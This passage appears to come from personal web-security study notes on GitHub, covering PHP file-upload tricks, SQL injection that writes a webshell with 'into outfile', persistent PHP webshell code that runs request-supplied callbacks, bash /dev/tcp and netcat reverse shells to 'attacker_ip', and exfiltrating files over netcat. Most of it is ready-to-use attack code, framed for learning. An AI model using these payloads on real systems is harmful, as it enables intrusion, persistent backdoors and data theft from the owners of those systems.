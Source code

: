 * `.php/.`
What's worth mention: this trick cannot be used to overwrite old file  
php would recursively remove the part of `/.`.  
[Apache2 php5 conf](https://github.com/shinmao/Web-Security-Learning/blob/master/Webshell/apache2_php5.conf)  
* `move_uploaded_file()`  
With use of lstat() in this function, we can bypass the above overwrite limitation on `/.`  
[My own notes](https://shinmao.github.io/web/2018/04/13/The-Magic-from-0CTF-ezDoor/)

# SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

# Dont delete my webshell
```php
<?php
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);
// callback after shutdown
// ?e=assert&pass=phpinfo();

<?php
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);
?>
```  
[@lem0n Bypass_Disable_functions_Shell](https://github.com/l3m0n/Bypass_Disable_functions_Shell)  

# Reverse shell
If the target is located in the intranet, I cannot connect to it from the outside then Reverse shell is your best choice. Reverse shell means the victim activate the connection to the attacker.  
1. bash  
```php
bash -i >& /dev/tcp/attacker_ip/8080 0>&1
```  
Here we need to redirect all the fd 0,1,2 to `/dev/tcp/attacker_ip/port` instead of showing on the victim machine.  
[ref: Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)  
[ref: Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)  

2. netcat  
```php
nc -lvvp 8080   // listen to the 8080 port
nc attacker_ip 8080 -t -e /bin/bash
```
build up a connection then execute `/bin/bash`  
Here, I also introduce the way to dump the remote file with netcat:  
```php
// receive side
nc -lvvp 8080 > file.tar.gz   // listen and save the compressed file as file.tar.gz

// sender side
tar -czvf file.tar.gz path/to/file [path/to/file2 path/to/file3 ...]
cat file.tar.gz | nc receive_ip listen_port
```  
Then, you can use `tar -xzvf file.tar.gz` to extract the archive on the receive side.  